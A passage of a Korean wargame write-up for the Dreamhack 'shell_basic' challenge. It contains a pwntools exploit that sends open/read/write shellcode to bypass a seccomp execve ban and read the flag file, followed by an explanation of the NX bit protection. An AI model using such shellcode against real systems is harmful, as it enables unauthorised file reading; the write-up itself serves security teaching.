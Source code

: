 ```C
}
```
셸코드를 입력받고 그것을 실행하는 코드이다. 하지만 seccomp로 execve와 execveat를 사용하지 못한다. 이럴경우 이에 해당하지 않는 다른 함수를 이용할 수 있다.

익스플로잇 코드는 아래와 같다.
```python
from pwn import *
  
context(arch='amd64', os='linux')
# p = process("./shell_basic")
p = remote("host3.dreamhack.games", 13918)
  
shellcode = shellcraft.open("/home/shell_basic/flag_name_is_loooooong")
shellcode += "mov rdi, rax"
shellcode += shellcraft.read("rdi", "rsp", 100)
shellcode += shellcraft.write(1, "rsp", 100)
  
p.sendline(asm(shellcode))
  
p.interactive()
```


셸 코드 설명을 해보면 우선 open으로 /home/shell_basic/flag_name_is_loooooong를 연다. 이 값은 rax로 반환되니 mov rdi, rax를 하고 read로 rsp에 flag파일을 읽는다. 그리고 write로 읽은 값을 출력하면 flag를 알아낼 수 있다.

![](https://i.imgur.com/23Ovlyn.png)

### NX bit
NX Bit는 데이터 영역(여기서 데이터 영역은 code 영역을 제외한 영역이다.)에서 코드의 실행을 막는 보호기법이다. 이러한 보호기법이 있는 이유는 셸 코드의 실행을 막기 위함이다. 셸 코드는 표준입력이나 파일 입력 등을 이용해 프로그램 외부에서 공격자가 주입하는데, 이때 셸 코드가 주입되는 위치가 대부분 힙, 스택 영역이기 때문이다.

옵션은 컴파일시 -z execstack 으로 끌 수 있다. 

예제1에 nx-bit를 키고 다시 실행시켜보자.

![](https://i.imgur.com/cDrCFvR.png)

![](https://i.imgur.com/z8dB7Pu.png)
셸이 실행되지 않는다.